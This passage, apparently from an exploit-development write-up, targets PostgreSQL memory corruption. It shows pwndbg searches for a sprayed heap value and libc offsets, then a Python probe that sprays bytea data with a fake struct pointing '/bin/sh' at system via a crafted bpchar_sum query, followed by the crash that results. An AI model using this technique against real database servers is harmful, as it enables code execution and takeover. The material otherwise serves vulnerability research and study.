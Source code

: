 then in `gdb`:

```c
pwndbg> search -8 0xaaaaaaaaaaaaaaaa --limit 2
Searching for value: b'\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa'
postgres        0x563513da8cd6 stosb byte ptr [rdi], al
[anon_7f878c54d] 0x7f87945ce04c 0xaaaaaaaaaaaaaaaa
libm.so.6       0x7f87a77471e0 0xaaaaaaaaaaaaaaaa
libm.so.6       0x7f87a7747200 0xaaaaaaaaaaaaaaaa

pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7f87a74e0000     0x7f87a74e3000 rw-p     3000      0 [anon_7f87a74e0]
►   0x7f87a74e3000     0x7f87a7509000 r--p    26000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a7509000     0x7f87a765e000 r-xp   155000  26000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a765e000     0x7f87a76b1000 r--p    53000 17b000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a76b1000     0x7f87a76b5000 r--p     4000 1ce000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a76b5000     0x7f87a76b7000 rw-p     2000 1d2000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f87a76b7000     0x7f87a76c4000 rw-p     d000      0 [anon_7f87a76b7]

pwndbg> dist 0x7f87a74e3000 0x7f87945ce04c
0x7f87a74e3000->0x7f87945ce04c is -0x12f14fb4 bytes (-0x25e29f7 words)
```

We have our offset now, and we can easily calculate address where our "fake" structure will be stored. Now it is enough to craft it.

First attempt was to call `system` with `/bin/sh` (or `one_gadget` in general). Used the following code (extended python script):

```py
def probe():
    conn.commit(); cur = conn.cursor()

    fake_struct = flat(
        b'/bin/sh\x00',
        p64(rdi+0x10), # point to address below
        p64(libc_base+SYSTEM)
    )

    cur.execute(flat(
        b"SELECT '\\x",
        b'aaaaaaaa' * 0x80000,
        fake_struct.hex().encode(),
        b"'::bytea, bpchar_sum('1', '",
        payload.strip(b'\x00'), # no null bytes allowed
        b"')"
    ))
```

and program crashes here:
```
 ► 0x563514075620 <EOH_get_flat_size>                        mov    rax, qword ptr [rdi + 8]

pwndbg> p/x $rdi
$1 = 0xd2007fc626c1404c
```
